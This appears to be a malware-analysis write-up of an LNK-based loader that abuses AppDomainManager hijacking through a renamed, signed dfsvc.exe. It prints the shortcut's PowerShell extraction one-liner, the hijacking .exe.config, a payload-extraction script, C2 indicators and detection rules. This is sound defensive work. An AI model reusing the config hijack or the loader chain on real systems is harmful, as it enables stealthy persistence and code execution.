





# AppDomain Hijacking: Analyzing a LNK malware


**TL;DR.** The `.lnk` is not a dropper in the usual sense. It carries a base64 blob of five colon-separated parts and a one-line PowerShell command that cuts the blob out of the shortcut's own bytes. Four of the parts become files in the user's Startup folder, the fifth is the script that assembles them. The trick is the fifth file, `NetworkConfig.exe.config`: two attributes in its `<runtime>` section tell the CLR to instantiate a class from a neighbouring DLL as the AppDomainManager, which happens before the host application's `Main` runs. The host is `dfsvc.exe`, a Microsoft-signed ClickOnce binary copied to `NetworkConfig.exe`, so everything on disk has a valid signature. The DLL then decrypts a shellcode blob with a key that changes between the first and the second run.


|  |  |
| --- | --- |
| **Sample** | `HactpoeMblx pa6ot.lnk` |
| **Target** | `powershell.exe`, `-nop -ExecutionPolicy Bypass` |
| **Payload offset** | `2087` in the `.lnk`, `930304` bytes read |
| **Stages** | LNK, PowerShell one-liner, four dropped files, AppDomainManager DLL, shellcode |
| **Signed host** | `dfsvc.exe`, 18,272 bytes, `4.8.10003.0`, valid Microsoft signature |
| **C2** | `mskmailforwarder[.]com` |
| **Analysis** | Static, from the LNK properties, the dropped config and decompiled DLL code. I did not hold the sample. |


**Where these facts come from.** I did not get the files. Everything below is either (a) read off images of the LNK properties, the dropped `.exe.config` and the decompiled DLL, (b) measured on my own Windows 11 26100 machine against the components the sample abuses, or (c) quoted from the published analysis, labelled as such. I have not copied any file, offset or hash out of that analysis into a claim of my own. The section at the end lists which is which.


## Why this one is interesting

Three things in this chain are worth more than the shellcode that follows them.

The first is that the payload is not a separate file at delivery. It is inline in the shortcut, and the shortcut extracts itself. That means the only file an email gateway or a file-share scanner sees is a `.lnk` that is mostly a blob of base64, and the first 2 KB of it looks like a normal shortcut to `powershell.exe`.

The second is `dfsvc.exe`. It is a real Microsoft binary, signed, sitting in `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\`. Copying it to the Startup folder under a new name gives the attacker a signed executable that never triggers a reputation lookup, because the bytes are a known Windows file. What makes it useful is not that it is signed. It is that it has a config file, and the CLR reads configuration before it calls `Main`.

The third is the key schedule. On the first run the shellcode is decrypted with a key fetched from the C2. On every run after that it is decrypted with the victim's `MachineGuid`. So the copy sitting on disk is never decryptable offline with a key you already have, and a sandbox that blocks the C2 gets nothing.



*Figure 1: the whole chain, with the two branches of the key schedule on the right.*

## What the shortcut says about itself

LNK properties are the cheapest place to start, and here they are unusually generous.



*Figure 2: the shortcut's own properties. Everything the first stage does is in that one field.*

```
Target File DOS Name  : powershell.exe
Drive Type            : Fixed Disk
Drive Serial Number   : B891-595B
Volume Label          :
Local Base Path       : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path         : ..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Command Line Arguments: -nop -ExecutionPolicy Bypass -wd %temp% -c $n='HactpoeMblx pa6ot.lnk';...
```

Two details before the command line itself.

`Local Base Path` points at `WindowsPowerShell\v1.0\powershell.exe`, which is Windows PowerShell 5.1, not PowerShell 7. That matters later.

The filename, `HactpoeMblx pa6ot.lnk`, is written with Latin letters that stand in for Cyrillic ones. Read as transliterated Russian it comes out as something like "Настроечный работ", a setup or configuration document, which is a plausible thing to find in a work folder. That reading is my inference from the letter choices; what is not an inference is that the same string appears again inside the command line as a literal, which is how the script finds the shortcut it is running from.

### The command line, piece by piece

```
-nop -ExecutionPolicy Bypass -wd %temp% -c
$n='HactpoeMblx pa6ot.lnk';
if(!(ls $env:temp -recurse $n)){
    $k=New-Object IO.FileStream (
        $env:temp+'\'+(ls $env:temp -recurse $n).Directory.Name+'\'+$n),
        'Open','Read','ReadWrite'
}
$b=New-Object byte[] (930304);
$k.Seek(2087,[IO.SeekOrigin]::Begin);
$k.Read($b,0,$b.Length);
$a=[Text.Encoding]::Unicode.GetString(
     [Convert]::FromBase64CharArray($b,0,$b.Length)) -split ':';
ac out.ps1 $([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($a[4])));
. .\out.ps1; del out.ps1
```

`-nop` is `-NoProfile`, so no profile script runs and nothing the user installed can interfere. `-ExecutionPolicy Bypass` covers the policy setting. Then it looks for itself:

```powershell
$n = 'HactpoeMblx pa6ot.lnk'
ls $env:temp -recurse $n
```

`$n` lands in the second positional parameter of `Get-ChildItem`, which is `-Filter`, so the line means "find a file with this name anywhere under `%temp%`". `-recurse` is the interesting part. If the shortcut were being run from wherever the user saved it, there would be no reason to search `%temp%` at all, and no reason to search recursively. The search makes sense if the `.lnk` was executed from inside an archive: Explorer extracts the contents of a `.zip` to a temporary folder under `%temp%` and runs the shortcut from there, which produces a path two or three levels deep with a name the attacker cannot predict. I cannot prove delivery was a ZIP without the container, but the recursion only earns its place if the folder name is unknown.

### The line that cannot run as written

Take the guard apart and something is wrong with it.

```powershell
if (!(ls $env:temp -recurse $n)) { $k = New-Object IO.FileStream ... }
```

The FileStream is created on the branch where the lookup found **nothing**. When the shortcut *is* found, `!(...)` is false, the block is skipped, and `$k` is never assigned, so `$k.Seek(2087, ...)` two statements later fails on a null variable. When the shortcut is *not* found, the block does run, and the path it builds is `$env:temp + '\' + (nothing).Directory.Name + '\' + $n`, which resolves to `%temp%\\<name>` because property access on `$null` returns null in PowerShell. That path exists only in the case where the search would have found it.

Both branches lead to an error, so the string in the properties dialog cannot be the one that ran, or it ran and failed. The intent is still readable: `(ls ...).Directory.Name` is how you reconstruct the full path of a file that was found in an unknown subfolder, so the guard was almost certainly `if (ls ...)` without the negation. I am reporting what the dialog shows, because that is what I have, and flagging it so nobody copies this line into a tool and wonders why it throws.

What does survive the mess is the fragility: the filename is hard-coded inside the command. Rename the shortcut and the rebuilt path points at a name that no longer exists.

### The flag that does nothing

`-wd %temp%` is meant to set the working directory, and on Windows PowerShell 5.1 it does not do that.

`-WorkingDirectory` appears in the help output of `powershell.exe` on this build (`-?` lists `-WorkingDirectory | -wd`), and the flag is accepted without an error, so a quick read of the command line suggests it works. It does not. On 5.1.26100 launching with `-wd C:\Windows` and asking the child process where it is gives the inherited directory three ways:

```
[Environment]::CurrentDirectory  -> C:\Users\bpiec\OneDrive\Documents\Default Project
(cmd /c cd)                      -> C:\Users\bpiec\OneDrive\Documents\Default Project
```

The same happens with the full parameter name and with `-File` instead of `-c`, and a control run that calls `Set-Location C:\Windows` first does change the result, so the measurement is sound. Whatever the parser does with the flag, the working directory is not changed on this build.

Why it matters: the last three statements are `ac out.ps1 ...`, `. .\out.ps1` and `del out.ps1`, all relative paths. With `-wd` inert, `out.ps1` is written to whatever directory the shortcut was launched from, not to `%temp%`. That folder therefore has to be writable, which fits the archive-extraction theory above and rules out a read-only share. It also means a defensive product watching `%temp%` for script drops is looking in the wrong place for this one.

## Cutting the blob apart

The blob is not a payload, it is a container. Base64 decodes to UTF-16 text, and that text is five base64 documents joined by colons. The arithmetic is worth doing once, because it tells you the author built the file with a script rather than by hand:

| Step | Value |
| --- | --- |
| base64 characters read | `930304` |
| divisible by 4 | yes, `232576` groups |
| decoded bytes | `697728` |
| UTF-16 code units | `348864` |
| characters left after four colons | `348860` |

`930304` being a clean multiple of four is why `FromBase64CharArray($b, 0, $b.Length)` works as written. There is no padding handling anywhere in the command line, so the author sized the blob to avoid it.

The five parts map to five files, and the order is visible in the extraction code rather than guessed:

| Index | Becomes | Role |
| --- | --- | --- |
| `$a[0]` | `NetworkConfig.exe.config` | CLR config that hijacks the AppDomainManager |
| `$a[1]` | `NetworkConfig.dll` | the .NET assembly that does the work |
| `$a[2]` | `123.pdf` | decoy document for the icon |
| `$a[3]` | `NetworkConfig.conf` | encrypted shellcode |
| `$a[4]` | `out.ps1` | the script that writes the first four and starts the host |

I checked the split logic by rebuilding it: encode five known parts as UTF-16, base64 them, decode, split on `:`, and `$a[4]` comes back as the script while `$a[0]` is the config. Nothing exotic, but it confirms the index order instead of assuming it.

## Stage two: four files and a signature

The PowerShell script writes the four files, copies `dfsvc.exe` in as `NetworkConfig.exe`, and starts it. What lands in the Startup folder is this:

```
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\
    NetworkConfig.exe          <- dfsvc.exe, signed by Microsoft
    NetworkConfig.exe.config   <- $a[0]
    NetworkConfig.dll          <- $a[1]
    NetworkConfig.conf         <- $a[3]
```

`123.pdf` from `$a[2]` is the decoy. The shortcut's icon field points at `.\123.pdf`, a relative path, so the document icon only resolves if a file of that name sits beside the shortcut. With `.lnk` hidden by Explorer's default settings, the name in the folder is whatever precedes the extension.

The host binary is real and unmodified. On this machine:

| Property | Value |
| --- | --- |
| Path | `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\dfsvc.exe` |
| Size | 18,272 bytes |
| Version | `4.8.10003.0` |
| Description | ClickOnce |
| Signature | valid, `CN=Microsoft Windows, O=Microsoft Corporation` |

`dfsvc.exe` is the ClickOnce deployment service, a small .NET Framework 4 application whose job is to start ClickOnce apps. It ships with its own `dfsvc.exe.config` in the same directory, and that file already contains a `<runtime>` section, so it is a documented, working example of a config-driven .NET host. Replacing it with a config that names a different AppDomainManager is the whole trick.

This is the part worth being precise about. The attacker is not exploiting a bug. AppDomainManager injection is documented .NET behaviour, available since .NET Framework 4.0, and the attributes it uses are the ones Microsoft provides for hosts that need to customise domain creation. Version 4.8.10008 is installed here, so the runtime supports it. I did not reproduce the load, and I say so in the limitations.

## Stage three: one XML file

The whole hijack is four lines:

```xml
<?xml version="1.0"?>
<configuration>
  <startup>
    <supportedRuntime version="v4.0" />
  </startup>
  <runtime>
    <appDomainManagerType value="NetworkConfig.NewNetworkConfig" />
    <appDomainManagerAssembly value="NetworkConfig" />
  </runtime>
</configuration>
```

The two attributes are read when the CLR sets up the default AppDomain. `appDomainManagerAssembly` names the assembly, `appDomainManagerType` names the class inside it, and the assembly is resolved the way any other assembly dependency is resolved: from the application's own directory first. That is why `NetworkConfig.dll` only has to sit next to `NetworkConfig.exe`. It is not a `PATH` hijack and it is not a DLL search-order problem, it is the .NET loader doing exactly what the config asks, with no signing requirement on the assembly it loads.



*Figure 3: the dropped `NetworkConfig.exe.config`. Four meaningful lines, no exploit.*

Before `Main` runs, the CLR instantiates `NetworkConfig.NewNetworkConfig` and calls `InitializeNewDomain`. Everything the malware does happens inside that call. The host's own code gets to run afterwards, briefly, and it does not matter: `dfsvc.exe` with no ClickOnce activation arguments has nothing to do.

There is one requirement that shapes the attack and is easy to miss: the config must be named after the executable. `NetworkConfig.exe` needs `NetworkConfig.exe.config`, so the attacker's choice of filename for the copied binary also fixes the name of two of the four dropped files. That is why the string table carries all three names as literals instead of building them.

## What the DLL does

The assembly is obfuscated the cheap way: type and member names are invisible Unicode (`U+00A0`, `U+1680`, `U+2001`, `U+2004`), so decompiled code reads like `\u1680.\u00a0()` and two different members look identical on screen. Signatures, strings and control flow are untouched.

### Strings

A constructor on one of the classes walks a byte array and XORs each byte with its own index and the constant `204`, and a set of getters return slices of the result. The published analysis dumped 21 strings from it. I cannot re-derive that dump without the file, so I am quoting it rather than presenting it as mine:

| # | String |
| --- | --- |
| 3 | `Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\StartupFolder` |
| 6, 7 | `PipesOfPiece`, `AABBCC123` |
| 8 | `{0}{1}/{2}` |
| 12, 13 | `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography`, `MachineGuid` |
| 14 | `849d16c2-829f-4e19-93ba-cb0e2c309afc` |
| 15 | `https://mskmailforwarder[.]com/` |
| 16 | `Mozilla/5.0 (Windows NT; Windows NT 10.0; en-GB) WindowsPowerShell/5.1.22621.4249` |
| 18, 19 | `api/auth.php`, `api/batchLogHandle.php` |

The user agent is worth a second look on its own. It advertises a PowerShell version (`5.1.22621.4249`, a 22H2 build) that does not match the runtime patch level of every machine this will land on, and it says `Windows NT` twice where a browser would say it once. A request carrying that string from a workstation is not a browser.

### The two named pipes

`InitializeNewDomain` starts two threads before it does anything else.

The first creates a pipe called `PipesOfPiece` and runs a loop that accepts a connection, reads what the client sends, reverses it, sends it back, and closes, forever.

The second reads values named `chrome` and `brave` from the registry, creates a pipe, writes `AABBCC123` into it, and closes.

Two pipes with two different protocols, one of which is an echo server and one of which is a one-shot handshake. That pattern does not look like command and control. It looks like a check for whether another instance is running, or a way for a second component to ask "is the loader alive", with the echo pipe as a cheap way to confirm the process can service a client. I could not confirm either from the decompiled code I have, so treat the purpose as open. What is not open is that both names are unique enough to alert on.

### The sandbox check

The function that gates the rest is dense, and reads better as a list than as code:

1. Compare `AppDomain.CurrentDomain.FriendlyName` against a value from an obfuscated getter. On a mismatch, return "detected".
2. If `%LocalAppData%\NetworkConfig.conf` exists, return "not detected" and skip everything below. Second run skips the delay.
3. Otherwise, sample two fields 20 times, sleeping `0xBB8` milliseconds between samples.
4. Count how many samples match an earlier sample.
5. Repeat the whole 60-second block unless that count is between 1 and 15.
6. Return true if the Startup folder's `NetworkConfig.conf` is **missing**, so a run that has already been cleaned up of its payload also aborts.



*Figure 4: the gate, as decompiled. The `Thread.Sleep(0xbb8)` inside a twenty-iteration loop is the minute of silence.*

Step 3 is twenty iterations of three seconds, so a first run that gets past step 2 has already spent a minute doing nothing visible. Twenty samples of a pair of values, with a check on how often they repeat, is a timing probe: it is counting how the values change across a minute, and the `num > 15 || num == 0` tail retries both when everything repeats and when nothing does. That reading is mine from the decompiled structure; the getter names are invisible, so I cannot say which two quantities are being sampled.

### The key schedule

This is the part that makes offline analysis fail, and it is worth drawing.



Read the two branches together and the design is clear. The Startup folder copy of `NetworkConfig.conf` is decryptable only with a key that lives on the C2, so it is useless to anyone who captures the files. After the first successful run, that copy is deleted and replaced by one under `%LocalAppData%` that is keyed to the machine. From then on the loader works offline, at every boot, with no C2 contact.

Two consequences. First, a sandbox with no network access cannot get past step one, which is the point. Second, on a real victim the machine holds both the ciphertext and the key, so the shellcode is recoverable from a forensic image taken after the first run, by reading `MachineGuid` and repeating the RC4 step. That is the analyst's way in, and it is a strange thing for the author to hand over.

The RWX region is `MemoryMappedFile.CreateNew(..., MemoryMappedFileAccess.ReadWriteExecute)` at 150,000 bytes, pagefile-backed. It works because the host does not opt into Arbitrary Code Guard, which a .NET Framework host started from the Startup folder will not.

## The persistence that does not persist

There is one step that reads as persistence and, on inspection, is not.

The DLL writes three values into `HKCU\...\Explorer\StartupApproved\StartupFolder`, each a 12-byte `REG_BINARY` starting with `03 00 00 00` and followed by a decoded timestamp:

```
03 00 00 00 DE AA 50 90 F2 88 DB 01
```

That is the shape Windows uses for a startup item the user has disabled: a `DWORD` state followed by a `FILETIME`. The three value names are `NetworkConfig.dll`, `NetworkConfig.exe.config` and `NetworkConfig.conf`.

The problem is the names. On this machine the values under that key are named after the files in the Startup folder:

| Value name | Bytes | Meaning |
| --- | --- | --- |
| `Peace.lnk` | `02 00 00 00 00 00 00 00 00 00 00 00` | enabled |
| `Voicemeeter (VB-Audio).LNK` | `02 00 00 00 00 00 00 00 00 00 00 00` | enabled |
| `BurgerWorker.exe` | `01 00 00 00 C5 3D C4 19 96 12 DD 01` | timestamped |

The item that actually autostarts in this chain is `NetworkConfig.exe`. Nothing in the list above says `.exe`. Writing `NetworkConfig.dll`, `NetworkConfig.exe.config` and `NetworkConfig.conf` creates three entries for files that are not startup items, and leaves the real one untouched, so the loader still starts at logon.

What the writes do achieve is cosmetic. An analyst who opens Task Manager's Startup tab, or reads that key, sees three entries that look like the malware's files already disabled by a user. On a first pass that reads as "already handled".

The timestamp decodes to `2025-02-27T08:35:32Z`, a fixed date roughly twenty months before this post, not the install time. If that constant is accurate, every victim gets the same eight bytes, which is a better pivot than the value names are.

## Detection

The shortcut is the only artefact that is suspicious without context, so start there.

### YARA

[`detections/lnk_appdomain_stager.yar`](../detections/lnk_appdomain_stager.yar) has two rules. The first matches a shell link (`uint32(0) == 0x4C`) that carries a PowerShell command line combining `FromBase64CharArray`, `Seek(`, `[IO.SeekOrigin]::Begin`, `-split` and either `-nop ` or `$env:temp`. The second matches a small XML file that names both `appDomainManagerType` and `appDomainManagerAssembly` inside a `<runtime>` element.

The second rule is the useful one, because a config that redirects the AppDomainManager has no benign reason to exist outside a handful of enterprise hosts. The negative case matters as much as the positive: the real `dfsvc.exe.config` ships with a `<runtime>` section containing `supportedRuntime` and `AppContextSwitchOverrides`, and it does not match, so the rule separates the shipped file from the dropped one without relying on a filename.

I tested both conditions with a re-implementation in Python, since yara is not installed here:

| File | LNK rule | config rule |
| --- | --- | --- |
| synthetic `.lnk` with the observed command line | fires | no |
| synthetic `NetworkConfig.exe.config`, ASCII | no | fires |
| same config as UTF-16 with a BOM | no | fires |
| real `dfsvc.exe.config` | no | no |
| real `Peace.lnk` from a Startup folder | no | no |
| `cmstplua.dll` | no | no |

That is a check of the logic, not a check against the sample. Neither rule has seen the real `.lnk` or the real `.dll`.

### Hunting

| Source | What to look for |
| --- | --- |
| Sysmon EID 1 | `powershell.exe` whose command line contains `FromBase64CharArray`, `[IO.SeekOrigin]::Begin` and `-split`, with `explorer.exe` as parent |
| Sysmon EID 11 | `NetworkConfig.exe` or any of the three companion files created in a Startup folder |
| Sysmon EID 11 | a file named `dfsvc.exe` written outside `C:\Windows\Microsoft.NET\` |
| Sysmon EID 7 | `NetworkConfig.dll` loaded into `NetworkConfig.exe` (or into `dfsvc.exe`) |
| Sysmon EID 17/18 | named pipes `PipesOfPiece` and `AABBCC123` |
| Sysmon EID 13 | writes to `StartupApproved\StartupFolder` by anything other than `explorer.exe` or Task Manager |
| Sysmon EID 3 | HTTP to `mskmailforwarder[.]com`, especially `/849d16c2-829f-4e19-93ba-cb0e2c309afc/api/...` |
| Sysmon EID 1 | `NetworkConfig.exe` with no arguments, started from a Startup folder at logon |

The name row is the one that generalises. `dfsvc.exe` copied out of the .NET directory is unusual on its own, and it catches this chain at the moment of staging, before any PowerShell runs.

## MITRE ATT&CK

| Technique | ID | Evidence |
| --- | --- | --- |
| User Execution: Malicious File | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | the `.lnk` is the entry point |
| Hijack Execution Flow: AppDomainManager | [T1574.014](https://attack.mitre.org/techniques/T1574/014/) | `appDomainManagerType` and `appDomainManagerAssembly` in the dropped config |
| Boot or Logon Autostart: Startup Folder | [T1547.001](https://attack.mitre.org/techniques/T1547/001/) | four files written to `Programs\Startup` |
| Masquerading: Match Legitimate Name or Location | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) | `dfsvc.exe` renamed `NetworkConfig.exe`, Cyrillic lookalike in the shortcut name |
| Deobfuscate/Decode Files or Information | [T1140](https://attack.mitre.org/techniques/T1140/) | base64 layers, XOR `204` string table, RC4 |
| Virtualization/Sandbox Evasion | [T1497.001](https://attack.mitre.org/techniques/T1497/001/) | friendly-name check, file-existence check, 60-second timing probe |
| Application Layer Protocol: Web Protocols | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | `api/auth.php` and `api/batchLogHandle.php` over HTTP |
| Reflective Code Loading | [T1620](https://attack.mitre.org/techniques/T1620/) | shellcode copied into an RWX mapped view and executed in-process |

**Not observed:** T1055 (no foreign process is touched), T1053, T1543, T1134.

## Limitations

1. **I never held the sample.** No hash, offset or GUID below was computed by me from the files. The offsets `2087` and `930304`, the command line, the `$a[4]` index and the config XML come from images of the artefact; the 21-string dump, the 12-byte registry value and the hashes come from the published analysis and are labelled where they appear.
2. **I did not reproduce the AppDomainManager load.** I confirmed the runtime version and that `dfsvc.exe` is a .NET 4 host with a working config, and read the mechanism from Microsoft's documentation. Seeing it load would mean writing the assembly and a config, which I did not do.
3. **Two claims rest on one machine.** The `-wd` behaviour and the `StartupApproved` naming were measured on Windows 11 26100 with PowerShell 5.1.26100. Both are the kind of thing Microsoft has changed before, and the `-wd` result in particular contradicts the help text, so check it on your build before you rely on it.
4. **The RC4 and XOR details are quoted.** Which key is XORed with `0x41`, and whether the C2 response is the RC4 key or the plaintext, is described as the original analysis describes it. Without the DLL I could not confirm the argument order.
5. **The ZIP delivery is inference.** The `%temp%` recursion explains it, and the relative `out.ps1` paths fit, but I have not seen the container.
6. **The YARA rules have never met the sample.** They encode what the shortcut and the config look like, verified against synthetic files and against real negatives, not against the real pair.

## Closing

Strip the obfuscation and the chain is small: a config file, a signed host, and a shortcut that carries its own payload. None of those three is malicious by itself, and none of them is a vulnerability. The shortcut is a normal shortcut, the binary is a normal Microsoft binary with a valid signature, and the config is a documented feature that enterprise hosts use on purpose.

That is also where the defence sits. Blocking `.lnk` files from email and from archives removes the entry point, and hunting for `dfsvc.exe` outside the .NET directory catches the staging step, before the config matters. Watching for the config is the sharpest signal of all, because a small XML file that names an `appDomainManagerAssembly` next to a freshly copied executable has no benign explanation.

The key schedule is the part I would remember. It is genuinely inconvenient for analysis and genuinely convenient for the defender who arrives with a disk image, because the victim's own machine is holding the key.

## Appendix A: pull the parts out yourself

The command line hard-codes the offset, but nothing stops you from locating the blob by searching for the first base64 run after the shortcut's structures, or from checking that the parts decode. This is the script I would run, written to fail loudly instead of silently:

```python
import base64, pathlib, sys

OFFSET, LENGTH = 2087, 930304
NAMES = ["NetworkConfig.exe.config", "NetworkConfig.dll", "123.pdf",
         "NetworkConfig.conf", "out.ps1"]

lnk = pathlib.Path(sys.argv[1]).read_bytes()
blob = lnk[OFFSET:OFFSET + LENGTH]
if len(blob) != LENGTH:
    sys.exit(f"short read: got {len(blob)} of {LENGTH}")

text = base64.b64decode(blob, validate=True).decode("utf-16-le")
parts = text.split(":")
if len(parts) != len(NAMES):
    sys.exit(f"expected {len(NAMES)} parts, found {len(parts)}")

for name, part in zip(NAMES, parts):
    raw = base64.b64decode(part, validate=True)
    pathlib.Path(name).write_bytes(raw)
    print(f"{name:<26} {len(raw):>8} bytes")
```

Two details worth keeping. `validate=True` turns a mis-set offset into an exception instead of a truncated file, which is the failure mode that wastes time. And the decode is UTF-16LE, because the blob is text that was encoded as UTF-16 before base64, which is why the arithmetic above has a factor of two in it.

## Appendix B: provenance

| Fact | Source |
| --- | --- |
| Target, arguments, drive serial, base path, icon field | LNK properties image |
| `2087`, `930304`, `-split ':'`, `$a[4]` | command line image |
| Config XML structure and both attribute values | config image |
| `FriendlyName` check, file check, 20 x 3s probe, retry condition | decompiled `u00a0()` image |
| `dfsvc.exe` size, version, signature | measured here |
| `-wd` has no effect on 5.1.26100 | measured here |
| `StartupApproved` value naming and byte layout | measured here |
| 21 decrypted strings, pipe handshake detail, RC4 order, 12-byte registry value | published analysis |
| Hashes | published analysis, not recomputed |
| Figures 1 to 4 | supplied to me as images, reproduced as given |

Published hashes, MD5, none of which I could verify:

```
194668569a83fa94b74eb676ab56e8bb  HactpoeMblx pa6ot.lnk
4a672428be43949fc3445a9040d94839  NetworkConfig.conf
4c6bd741919da9776dadf0c0d3e8f84b  NetworkConfig.exe.config
87c74787cd277ac678c555be3e4980bb  NetworkConfig.dll
```
